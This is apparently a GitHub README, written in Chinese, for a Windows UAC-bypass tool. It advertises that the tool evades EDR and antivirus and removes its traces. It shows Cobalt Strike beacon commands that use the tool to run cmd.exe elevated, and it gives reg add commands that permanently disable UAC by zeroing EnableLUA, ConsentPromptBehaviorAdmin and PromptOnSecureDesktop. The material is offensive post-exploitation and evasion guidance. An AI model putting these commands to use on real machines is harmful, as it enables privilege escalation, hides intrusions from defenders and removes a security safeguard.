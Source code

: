 # ByPassUACTools

![Author](https://img.shields.io/badge/Author-Trim-blueviolet) ![Author](https://img.shields.io/badge/Author-xiaoxiong-blueviolet)  

![Bin](https://img.shields.io/badge/ByPassUACTools-Bin-ff69b4)  ![build](https://img.shields.io/badge/build-passing-green.svg)  ![language](https://img.shields.io/badge/language-C-blue.svg)

### 简介

- **Windows 平台下的UAC(User Account Contro) 限制绕过工具。**

- **Windows 7 及以上版本系统（含Server版）。**

- **UAC防护级别小于或等于默认等级、当前进程的用户权限为管理员组（Administrators）用户权限。**

---

### 免责说明

- **避免恶意使用此工具，故不提供完整的工程项目源码和二进制文件，主要分享和提供思路供大家参考。**

---

### 设计思路

UAC（User Account Control，用户帐户控制）是 Windows Vista 版本后开始引入的一种系统安全机制，它在操作系统中定义了多种用户访问的安全级别，可以防止在非管理员权限下的存在恶意应用程序或恶意进程对系统范围（管理员级别）的配置进行访问或资源调度。

1. **自动检测当前系统运行环境:**
     - 自动检测当前系统是否开启UAC与当前UAC等级是否满足Bypass条件；
     - 自动检测当前进程所属用户的权限是否为管理员权限；
2. **主要核心功能**:
     - 支持以ByPass UAC的方式执行一个指定的二进制程序；
     - 所有内置的ByPassUAC模块在执行时不触发EDR-Agent和杀毒软件的告警；
     - 具备痕迹清除，在执行特定的ByPassUAC模块后，在退出前会清理落地的文件和恢复已修改的配置；

---

### 功能演示

#### 1、以ByPass UAC的方式执行一个指定的二进制程序

> 在具有安全软件和默认开启UAC的系统环境下，启动`regedit.exe`为例
- 直接运行会触发UAC桌面弹框提示
<img src="imgs/image-20220328164120370.png" alt="image-20220328164120370" style="zoom:33%;" />

- 通过`ByPassUACTools.exe`执行`regedit.exe`，则可以绕过系统UAC，同时该行为可以躲避杀软的系统防御检测。

<img src="imgs/image-20220328164148608.png" alt="image-20220328164148608" style="zoom: 50%;" />

#### 2、支持CobaltStrike Reflective DLL内存加载，绕过UAC运行指定的可执行文件（支持参数）

> 调用`C:\Windows\System32\cmd.exe`，附加参数执行指定的命令为例

```
beacon> bypassuactools "C:\Windows\System32\cmd.exe --parmas /c echo test > C:\test.txt"
```

#### 演示效果如下：

- 是否开启UAC

```
beacon> shell reg query "HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\System" /v "EnableLUA"
```

- 查询UAC等级

```
beacon> shell reg query "HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\System" /v ConsentPromptBehaviorAdmin
```

- 执行需要管理员权限的特定命令进行测试

```
beacon> shell C:\Windows\System32\cmd.exe /c echo test > C:\test.txt

beacon> shell dir C:\test.txt
```

- 通过bypassuactools执行特定命令

```
beacon> bypassuactools "C:\Windows\System32\cmd.exe --parmas /c echo test > C:\test.txt"
```

- 确认执行成果

```
beacon> shell type C:\test.txt
```

<img src="imgs/image-20220328143949418.png" alt="image-20220328143949418" style="zoom:25%;" />



### 其他：

#### 1.增加了永久关闭UAC的方法 ：

##### 1.1 演示效果如下：

<img src="imgs/image-20220328212625548.png" alt="image-20220328212625548" style="zoom: 40%;" />

##### 1.2 设计原理

> 注解：系统UAC的配置均在该注册表路径下：
>
> https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-gpsb/12867da0-2e4e-4a4f-9dc4-84a7f354c8d9

```
HKEY_LOCAL_MACHINE/SOFTWARE/Microsoft/Windows/CurrentVersion/Policies/System
```
##### 关键的注册表键说明：

- ConsentPromptBehaviorAdmin (UAC强度级别)

```vbscript
reg query "HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\System" /v "ConsentPromptBehaviorAdmin"
```
- EnableLUA (启动UAC策略)

```vbscript
reg query "HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\System" /v "EnableLUA"
```

- PromptOnSecureDesktop (禁用UAC桌面弹框提示)

```vbscript
reg query "HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\System" /v "PromptOnSecureDesktop"
```

##### 具体操作：

>  无需重启即可生效

```
reg add "HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\System" /v "ConsentPromptBehaviorAdmin" /t reg_dword /d 0 /F
```

```
reg add "HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\System" /v "EnableLUA" /t reg_dword /d 0 /F
```

```
reg add "HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\System" /v "PromptOnSecureDesktop" /t reg_dword /d 0 /F
```


